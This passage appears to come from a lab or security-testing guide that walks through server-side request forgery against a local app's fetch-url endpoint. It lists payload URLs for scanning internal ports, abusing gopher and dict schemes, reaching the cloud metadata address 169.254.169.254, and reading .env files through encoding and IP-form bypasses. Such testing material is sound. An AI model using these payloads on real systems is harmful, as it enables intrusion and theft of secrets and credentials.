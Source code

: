 **Step 5: Internal Network Scanning**
1. Test internal services:
   ```
   http://localhost:3000/api/fetch-url?url=http://localhost:3306
   http://localhost:3000/api/fetch-url?url=http://127.0.0.1:3000
   http://localhost:3000/api/fetch-url?url=http://localhost:22
   ```

**Step 6: Test with Different Protocols**
1. Try different URL schemes:
   ```
   http://localhost:3000/api/fetch-url?url=ftp://localhost
   http://localhost:3000/api/fetch-url?url=gopher://localhost
   http://localhost:3000/api/fetch-url?url=dict://localhost
   ```

**Step 7: Cloud Metadata Access (Simulation)**
1. Try accessing cloud metadata endpoints:
   ```
   http://localhost:3000/api/fetch-url?url=http://169.254.169.254/
   http://localhost:3000/api/fetch-url?url=http://169.254.169.254/metadata/
   http://localhost:3000/api/fetch-url?url=http://169.254.169.254/latest/meta-data/
   ```

**Step 8: Test with Malformed URLs**
1. Try URL encoding and other techniques:
   ```
   http://localhost:3000/api/fetch-url?url=http://localhost:3000/.env%00
   http://localhost:3000/api/fetch-url?url=http://localhost:3000/.env#
   http://localhost:3000/api/fetch-url?url=http://localhost:3000/.env?
   ```

**Step 9: Test with Redirects**
1. Try URLs that might redirect:
   ```
   http://localhost:3000/api/fetch-url?url=http://localhost:3000/redirect
   http://localhost:3000/api/fetch-url?url=http://localhost:3000/admin
   ```

**Step 10: Advanced SSRF Techniques**
1. Try using different IP representations:
   ```
   http://localhost:3000/api/fetch-url?url=http://127.0.0.1:3000/.env
   http://localhost:3000/api/fetch-url?url=http://0.0.0.0:3000/.env
   http://localhost:3000/api/fetch-url?url=http://[::1]:3000/.env
   ```

**Step 11: Test Error Handling**
1. Try invalid URLs to see error responses:
   ```
   http://localhost:3000/api/fetch-url?url=http://invalid-domain
   http://localhost:3000/api/fetch-url?url=http://localhost:99999
   http://localhost:3000/api/fetch-url?url=not-a-url
   ```

**Impact:**
- Internal network access
- Sensitive file exposure
- Service enumeration
- Cloud metadata access
- Potential lateral movement
